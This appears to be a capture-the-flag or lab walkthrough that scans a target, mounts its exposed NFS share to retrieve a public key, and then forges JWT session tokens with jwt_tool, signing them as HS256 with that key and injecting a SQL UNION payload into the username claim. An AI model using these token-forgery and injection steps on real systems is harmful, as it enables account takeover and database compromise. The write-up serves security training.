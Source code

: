 nmap

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
37977/tcp open  unknown
40423/tcp open  unknown
41035/tcp open  unknown
42825/tcp open  unknown
57877/tcp open  unknown
111/udp   open  rpcbind
33779/udp open  unknown
50918/udp open  unknown
57140/udp open  unknown
57739/udp open  unknown
58802/udp open  unknown
```

Trying to mount the share folder through NFS service.

```shell
showmount -e 192.168.216.222
mkdir /tmp/test_folder
sudo mount -t nfs 192.168.216.222:/mnt/share /tmp/test_folder -o nolock
```

Finding a public key but don't know where to use it. 

Next, checking the website. After trying to register many accounts, I find an existing account `brain` the web admin shows on the contacts page.



Logging in to the website using the previously registered account. I don't find the vulnerabilities on the report page and then check the session is JWT. We refer to this [article](https://infosecwriteups.com/attacking-json-web-tokens-jwts-d1d51a1e17cb) for testing.

JWT SQL injection

```shell
git clone https://github.com/ticarpi/jwt_tool.git
cd jwt_tool
python3 jwt_tool.py <token> -I -pc <Payload claim to tamper with> -pv "<sql command>" -S hs256 -k public.pem
# pc = payload claim to tamper with
# public.pem = public key from NFS
```

Our test payload

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1NTg3MzE4fQ.pi_Q8MWnXPtCDhgGcu5yQrjwuPWdgmyHnb7R5eqfBMsAx8UUb-jJ7rvw4bwbqNoucm8STXQweQ_VZwtXka2MCwVMbYSleb4HBa5glk7TdYfq6VATRLXgOU1hKEq1_bJnt5CZhZsBSpiupf2TetA1CeoOAP4Az8h7YAPRNGumJ-rP1z8G3M9uVhfgEJQce4OFNMfLRjFgynPlh9Ekg9ElzdGAUPmv_XjFQnEHLzICW5S6n_8b8siRZFSyNY3A-NcMT-c4D-LqM0WlU_IKdTXoL4vFOc88Yiw0mur51Nokz53xOvEJCEqWndPtOu-uTFKp_e3haNRllEHb3CFvuGi8sepuJil-sW0kZZ8zGtqf4nT4ET4Y6gGAw6qpXoon8ZdC_VfAauuh8gVm11JPbhbXbHsuYSKkdbOOd1p-SemWp9J8-QzB5vyIBql4av8OQ7SiQG9CUUNyg_YDzdPNW3GwzvlTbBArODb4L7BEsOvAsGdTSqimSPI7SWff3I2UdXvo7TfaLXShal_IAnMfh7C96WV8kGHPuRoAd7tikK72vNno2THv1JrvyL4aX3WJ84T3INDzInkNjCGexUk29Q31yZVG4eGZKF7Kbto-rXOryCHfg-JalDmzrOiCh14dDYl6o5YQv4XGFxBke7ucytBi5XO-BZSc8V2NCn9h2v8b88U -I -pc username -pv " ' UNION SELECT 1, 2, 3 --  " -S hs256 -k public.pem
```